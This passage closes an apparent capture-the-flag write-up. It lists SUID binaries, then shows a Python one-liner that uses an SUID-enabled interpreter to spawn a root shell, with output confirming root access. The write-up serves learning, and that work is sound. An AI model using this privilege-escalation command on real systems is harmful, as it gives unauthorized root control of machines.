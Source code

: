 ```
/snap/core/8268/bin/umount
/snap/core/8268/usr/bin/chfn
/snap/core/8268/usr/bin/chsh
/snap/core/8268/usr/bin/gpasswd
/snap/core/8268/usr/bin/newgrp
/snap/core/8268/usr/bin/passwd
/snap/core/8268/usr/bin/sudo
/snap/core/8268/usr/lib/dbus-1.0/dbus-daemon-launch-helper
/snap/core/8268/usr/lib/openssh/ssh-keysign
/snap/core/8268/usr/lib/snapd/snap-confine
/snap/core/8268/usr/sbin/pppd
/snap/core/9665/bin/mount
/snap/core/9665/bin/ping
/snap/core/9665/bin/ping6
/snap/core/9665/bin/su
/snap/core/9665/bin/umount
/snap/core/9665/usr/bin/chfn
/snap/core/9665/usr/bin/chsh
/snap/core/9665/usr/bin/gpasswd
/snap/core/9665/usr/bin/newgrp
/snap/core/9665/usr/bin/passwd
/snap/core/9665/usr/bin/sudo
/snap/core/9665/usr/lib/dbus-1.0/dbus-daemon-launch-helper
/snap/core/9665/usr/lib/openssh/ssh-keysign
/snap/core/9665/usr/lib/snapd/snap-confine
/snap/core/9665/usr/sbin/pppd
/bin/mount
/bin/su
/bin/fusermount
/bin/ping
/bin/umount
```
Using `find` on the root directory will have a lot of permission denied lines, so I piped stderr to /dev/null.
Python is in this list, which is a really big red flag, so I looked up the binariy with [gtfobins](https://gtfobins.github.io/) and found the exploit there. 
```
$ python -c 'import os; os.execl("/bin/sh", "sh", "-p")'
python -c 'import os; os.execl("/bin/sh", "sh", "-p")'
# whoami
whoami
root
# cd /root
cd /root
# ls
ls
root.txt
```
And there we have it.  The box is rooted.

## Conclusion
This box was pretty easy, with rather standard forms of exploitation.  I did learn a lot about blogging on this platorm though, which was the goal!  Thanks for reading!
